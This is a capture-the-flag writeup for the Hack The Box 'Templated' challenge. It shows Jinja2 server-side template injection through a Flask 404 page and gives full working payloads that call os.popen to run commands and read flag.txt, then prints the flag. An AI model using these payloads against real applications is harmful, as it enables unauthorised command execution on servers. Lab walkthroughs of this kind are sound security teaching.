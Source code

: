 # Templated Writeup

Navigating to the website simply displays a message "Site still under construction / Proudly powered by Flask/Jinja2." The challenge is called "Templated" and Jinja2 is used so this is a Jinja2 template injection.

Trying to go to a different page, like `/test`, displays an interesting 404 error "Error 404 / The page 'test' could not be found." Trying other pages shows that we have control over the output `'test'` on the 404 page.

Let's try the standard server-side template injection (SSTI): `{{7*7}}`. Navigating to `/{{7*7}}` displays "The page '49' could not be found". So, the url is vulnerable.

We can find an SSTI payload from [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2). For instance, `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}` allows us to execute arbitrary commands.

Navigating to `/{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}` displays the contents of the `/` directory: "The page 'bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var ' could not be found."

So, let's not `cat flag.txt` by going to `/{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}`. This displays the flag:

`HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`
